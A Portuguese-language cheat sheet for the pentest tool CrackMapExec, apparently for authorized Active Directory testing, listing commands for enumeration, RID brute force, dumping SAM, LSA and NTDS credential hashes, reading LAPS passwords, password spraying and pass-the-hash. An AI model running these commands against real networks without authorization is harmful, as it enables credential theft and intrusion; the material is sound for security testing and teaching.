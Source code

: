 Crackmapexec
========================

Quado se trata de pentest em ambientes Windows/Active Directory não podemos deixar de mencionar o [*crackmapexec*](https://github.com/byt3bl33d3r/CrackMapExec). Ela foi desenvolvida no para facilitar a vida do pentester varrer grandes redes sendo considerada o canivete suíço para tal fim. Mas, sem delongas, vamos demonstrar o poder dessa ferramenta e seus vários modos de uso e protocolos suportados...

## Uso genérico

    crackmapexec <protocolo> <opções_de_cada_protocolo>

*Vale considerar que para TODOS os comandos com <endereço_ip>, podemos substituí-lo por vários IPs separados ou notação de rede. Vide exemplos:*

    crackmapexec <protocolo> hostname.dominio
    
    crackmapexec <protocolo> 192.168.1.0 192.168.0.2
    
    crackmapexec <protocolo> 192.168.1.0/24
    
    crackmapexec <protocolo> 192.168.1.0-28 10.0.0.1-67
    
    crackmapexec <protocolo> ips.txt


## SMB

### Enumeracao

Enumeracao de hosts responsivos na rede:

    crackmapexec smb 192.168.1.0/24

Brute force de RID para enumerar usuarios:

    crackmapexec smb 192.168.1.0/24 -u usuario -p 'senha' --rid-brute

Enumerar usuarios de dominio

    crackmapexec smb 192.168.1.0/24 -u usuario -p 'senha' --users

Obter compartilhamentos via null session

    crackmapexec smb <endereço_ip> --shares

ou

    crackmapexec smb <endereco_ip> -u usuario -p senha --shares

Obter política de senhas via null session

    crackmapexec smb <endereço_ip> --pass-pol

### Com usuário privilegiado

Usuário administrador local:

    crackmapexec smb <endereço_ip> -u Administrator -p <senha> --local-auth

Com usuário de domínio:

    crackmapexec smb <endereço_ip> -d <domínio> -u <usuario> -p <senha>

Quando obtido **Pwn3d!** no output da ferramenta, significa que temos privilégios no host alvo, sendo possível a extração dos hashes de senha da máquina:

    crackmapexec smb <endereço_ip> -u <usuario> -p <senha> --sam 

Outra opção seria de fazer o dump do lsass:

    crackmapexec smb <endereço_ip> -u <usuario> -p <senha> --lsa

No controlador de domínio podemos considerar este comando (já com credencial domain admin ou similares)

    crackmapexec smb <endereço_ip> -u <usuario> -p <senha> --ntds

## LAPS

read LAPS passwords (necessário ter permissão pe LAPS_Readers):

    crackmapexec ldap 10.10.11.152 -u svc_deploy -p E3R$Q62^12p7PLlC%KWaxuaV' -M laps


## Password spraying

    crackmapexec ldap hosts.txt -u users.txt -p P@ssword! --continue
    
    crackmapexec smb 10.10.11.152 -u users.txt -p passwords_test.txt --continue
    
    crackmapexec winrm 10.10.11.152 -u users.txt -p passwords_test.txt --continue

## Pass the hash

    crackmapexec ldap hosts.txt -u users.txt -H :<nthash> --continue
    
    crackmapexec smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
    crackmapexec winrm <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
    crackmapexec mssql <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
    crackmapexec rdp <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>